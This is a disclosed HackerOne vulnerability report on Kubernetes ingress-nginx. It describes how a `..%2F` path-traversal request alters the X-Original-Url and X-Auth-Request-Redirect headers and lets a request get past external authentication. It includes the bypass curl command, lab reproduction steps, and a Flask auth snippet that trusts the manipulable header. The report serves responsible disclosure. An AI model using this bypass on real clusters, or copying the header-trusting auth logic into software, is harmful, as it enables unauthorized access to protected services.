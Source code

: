 # Attacker can bypass authentication build on ingress external auth (`nginx.ingress.kubernetes.io/auth-url`)

## Report Details
- **Report ID**: 1357948
- **URL**: https://hackerone.com/reports/1357948
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-03T19:44:41.551Z
- **Disclosed**: 2022-04-23T07:07:08.925Z

## Reporter
- **Username**: thisbug
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
Sending request with `<public-service>..%2F<protected-service>` allows to manipulate headers:

* X-Original-Url
* X-Auth-Request-Redirect

due to that manipulation external auth service could make wrong decision and return 204 instead of 401/403. **To be clear: manipulation of those headers give no possibility to kubernetes user to make any proper decisions based on those headers. ** This way allowing anonymous access to public service and trying to protect access to protected-service by e.g. api-key is not possible.

{F1469913}

Example:
With this call `curl -v http://app.test/public-service/..%2Fprotected-service/protected` external auth configured on ingress using `nginx.ingress.kubernetes.io/auth-url: http://auth-service.default.svc.cluster.local:8080/verify` will get following headers:
```
X-Request-Id: 7d979c82ca55141ed0d58655fbaac586
Host: auth-service.default.svc.cluster.local
X-Original-Url: http://app.test/public-service/..%2Fprotected-service/protected
X-Original-Method: GET
X-Sent-From: nginx-ingress-controller
X-Real-Ip: 192.168.99.1
X-Forwarded-For: 192.168.99.1
X-Auth-Request-Redirect: /public-service/..%2Fprotected-service/protected
Connection: close
User-Agent: curl/7.75.0
Accept: */*
```
Both headers `X-Original-Url` and `X-Auth-Request-Redirect` are manipulated. 

How this auth-service can parse request? Here is simple example of python and Flask:
```
api_key = request.headers.get('X-Api-Key')
request_redirect = request.headers.get('X-Auth-Request-Redirect')

if request_redirect and request_redirect.startswith("/public-service/"):
    return Response(status = HTTPStatus.NO_CONTENT)

if api_key == "secret-api-key":  
    return Response(status = HTTPStatus.NO_CONTENT)

return Response(status = HTTPStatus.UNAUTHORIZED)
```

## Kubernetes Version:
minikube v1.23.2 on Microsoft Windows 10 Pro 10.0.19043 Build 19043
Kubernetesa v1.22.2 on Docker 20.10.8

## Component Version:
k8s.gcr.io/ingress-nginx/controller:v1.0.0-beta.3@sha256:44a7a06b71187a4529b0a9edee5cc22bdf71b414470eff696c3869ea8d90a695

## Steps To Reproduce:

  1. Download project in attachment: F1469916
  2. Install minikube
  3. Enable addon ingress and ingress-dns
  4. Build docker images:

    * `cd auth-service; docker build -t auth-service:0.0.4 .`
    * `cd protected-service; docker build -t protected-service:0.0.1 .`
    * `cd public-service; docker build -t public-service:0.0.1 .`

  5. push docker images into minikube:

    * `minikube image load auth-service:0.0.4`
    * `minikube image load protected-service:0.0.1`
    * `minikube image load public-service:0.0.1`

  6. apply kubernetes configuration: `kubectl apply -f app.yaml`

To access public service: `curl -v http://app.test/public-service/public`
To access protected service: `curl -v http://app.test/protected-service/protected -H "X-Api-Key: secret-api-key"`
To access protected service bypassing authentication: `curl -v http://app.test/public-service/..%2Fprotected-service/protected`

## Supporting Material/References:

  * in F1469916 - project consist of 2 services: public and protected. Access to public should be available for anyone and to protected only with `X-Api-Key` header. auth-service is protecting access and configured as external auth on ingress.
    * app.yaml - whole configuration
    * auth-service, protected-service, public-service - directories with Dockerfiles to build

## Additional note
At first I have found this vulnerability in old version of ingress-nginx. It was 0.70.0. With this old version bypass was working without encoding of / to %2F.
e.g. `curl -v http://app.test/public-service/../protected-service/protected`
I was not able to reproduce it locally with minikube (couldn't install old ingress addon), but there is possibility that for some older versions of ingress-nginx you don't need to encode / to %2F.

## Impact

Attacker can bypass authentication build on ingress external auth (`nginx.ingress.kubernetes.io/auth-url`). 

Attacker can manipulate `X-Original-Url` and `X-Auth-Request-Redirect` headers. Due to this kubernetes user is not able to make safe assumption on those headers.

## Attachments
- h1-1.png
- k8s-ingress-auth-bypass.zip
